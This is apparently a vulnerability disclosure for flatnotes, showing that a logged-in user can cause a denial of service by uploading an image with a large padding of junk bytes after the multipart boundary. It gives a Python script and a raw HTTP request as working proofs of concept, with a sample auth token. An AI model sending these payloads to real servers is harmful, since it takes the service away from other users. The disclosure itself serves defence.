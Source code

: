 ### Description
Anyone who can log in to flatnotes and upload images through the function can cause DOS , which can prevent others from using it, other API interfaces from being accessed, and server DOS attacks

### Impact  
![image](https://github.com/user-attachments/assets/3f75eeb5-c5cd-4570-92b6-3e3b3fdab0f5)
### Proof of Concept 1
```
import requests

url = "http://192.168.137.11:8080/api/attachments"

headers = {
    "Authorization": "Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiJ1c2VyIiwiZXhwIjoxNzMzMzg1NzA4fQ.GI9swgQd0pDSP0q4mgLc-pMV94xl4KE5_jJNenZChmc",
    "Accept-Language": "zh-CN,zh;q=0.9",
    "Accept": "application/json, text/plain, */*",
    "Content-Type": "multipart/form-data",
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36",
    "Origin": "http://192.168.137.11:8080",
    "Referer": "http://192.168.137.11:8080/new",
    "Accept-Encoding": "gzip, deflate, br",
    "Cookie": "token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiJ1c2VyIiwiZXhwIjoxNzMzMzg1NzA4fQ.GI9swgQd0pDSP0q4mgLc-pMV94xl4KE5_jJNenZChmc",
    "Connection": "keep-alive"
}

data = (
    "------WebKitFormBoundaryN20AMdlOKTaspeAy\r\n"
    "Content-Disposition: form-data; name=\"file\"; filename=\"sword.png\"\r\n"
    "Content-Type: image/png\r\n\r\n" + file_content+ "\r\n"
    "------WebKitFormBoundaryN20AMdlOKTaspeAy--"+"0123456789"*50000+"\r\n"
)

response = requests.post(url, headers=headers, data=data)

```

### Proof of Concept 2
```
POST /api/attachments HTTP/1.1
Host: 192.168.137.11:8080
Content-Length: 1440589
Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiJ1c2VyIiwiZXhwIjoxNzMzMzg1NzA4fQ.GI9swgQd0pDSP0q4mgLc-pMV94xl4KE5_jJNenZChmc
Accept-Language: zh-CN,zh;q=0.9
Accept: application/json, text/plain, */*
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryN20AMdlOKTaspeAy
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36
Origin: http://192.168.137.11:8080
Referer: http://192.168.137.11:8080/new
Accept-Encoding: gzip, deflate, br
Cookie: token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiJ1c2VyIiwiZXhwIjoxNzMzMzg1NzA4fQ.GI9swgQd0pDSP0q4mgLc-pMV94xl4KE5_jJNenZChmc
Connection: keep-alive

------WebKitFormBoundaryN20AMdlOKTaspeAy
Content-Disposition: form-data; name="file"; filename="sword.png"
Content-Type: image/png

PNG
ND®B`
------WebKitFormBoundaryN20AMdlOKTaspeAy--
1234567890123456789012345678901234567890123456712345678901234567890123456789012345678901234567123456789012345678901234567890123456789012345671234567890123456789012345678901234567890123456712345678901234567890123456789012345678901234567123456789012345678901234567890123456789012345671234567890123456789012345678901234567890123456712345678901234567890123456789012345678901234567[attenation:A large amount of useless data]
```
### Attack Result 
![image](https://github.com/user-attachments/assets/c76d1da4-93d8-4a22-9a86-115d65c51a1e)

![image](https://github.com/user-attachments/assets/4f958e80-bc72-41f0-bca2-5cb8c9f10a33)



### refer 
[Github project](https://github.com/dullage/flatnotes)  
[origin issue](https://github.com/dullage/flatnotes/issues/259)

